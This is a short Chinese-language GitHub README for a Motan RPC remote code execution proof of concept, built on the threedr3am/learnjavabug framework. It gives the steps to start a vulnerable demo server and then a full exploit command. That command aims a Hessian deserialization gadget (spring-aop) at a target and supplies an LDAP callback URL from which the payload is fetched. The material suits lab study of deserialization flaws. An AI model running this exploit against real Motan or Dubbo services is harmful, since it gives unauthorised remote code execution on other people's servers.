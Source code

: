 
# Motan/dubbo-rce

## 前言
将Motan远程代码执行poc封装进threedr3am/learnjavabug项目中

## 快速利用

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务（漏洞靶场）

2. **编译rpc-rce：mvn clean package （jdk8+mvn3.2.5）**
```
java -jar dubbo-exp-1.0-SNAPSHOT-jar-with-dependencies.jar --target 127.0.0.1:8002 --protocol motan --serialization hessian  --gadget spring-aop --arg ldap://127.0.0.1:9988
```
![](https://github.com/zhzhdoai/Motan-rce/blob/master/poc.png)

## 漏洞复现

1. **motan-demo/motan-demo-server/src/main/java/com/weibo/motan/demo/server/DemoRpcServer.java** 启动Motan服务


2. **motan-demo/motan-demo-client/src/main/java/com/weibo/motan/demo/client/AnnotationRpcClientDemo.java** 运行攻击服务


# 参考
rpc-rce框架拉取threedr3am/learnjavabug:https://github.com/threedr3am/learnjavabug.git

